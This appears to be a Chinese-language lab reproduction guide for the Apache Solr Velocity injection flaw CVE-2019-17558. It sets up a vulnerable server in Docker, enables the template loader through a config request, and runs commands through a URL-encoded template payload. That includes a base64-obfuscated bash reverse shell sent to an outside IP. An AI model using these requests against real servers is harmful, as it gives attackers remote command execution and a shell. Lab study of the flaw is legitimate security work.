




# Apache Solr Velocity 注入远程命令执行漏洞  CVE-2019-17558

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。

在其 5.0.0 到 8.3.1版本中，用户可以注入自定义模板，通过Velocity模板语言执行任意命令。

具体漏洞原理和POC可以参考：

- https://nvd.nist.gov/vuln/detail/CVE-2019-17558
- https://issues.apache.org/jira/browse/SOLR-13971
- https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133
- https://github.com/jas502n/solr_rce

## 漏洞影响

```
Apache Solr 5.x 至 8.2.0
```

## 环境搭建

Vulhub执行如下命令启动一个Apache Solr 8.2.0服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到一个无需权限的Apache Solr服务。

## 漏洞复现

默认情况下`params.resource.loader.enabled`配置未打开，无法使用自定义模板。我们先通过如下API获取所有的核心：

```
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
```

Vulhub里唯一的核心是`demo`：



通过如下请求开启`params.resource.loader.enabled`，其中API路径包含刚才获取的core名称：

```
POST /solr/demo/config HTTP/1.1
Host: your-ip:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```


之后，注入Velocity模板即可执行任意命令：

```
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```



成功执行`id`命令：



构造反弹shell的POC（前后双引号也可以，编码是`%22`）：

```
'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}'

# URL编码后
%27bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%27
```

请求包如下：

```
GET /solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: your-vps-ip:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

成功接收反弹shell：

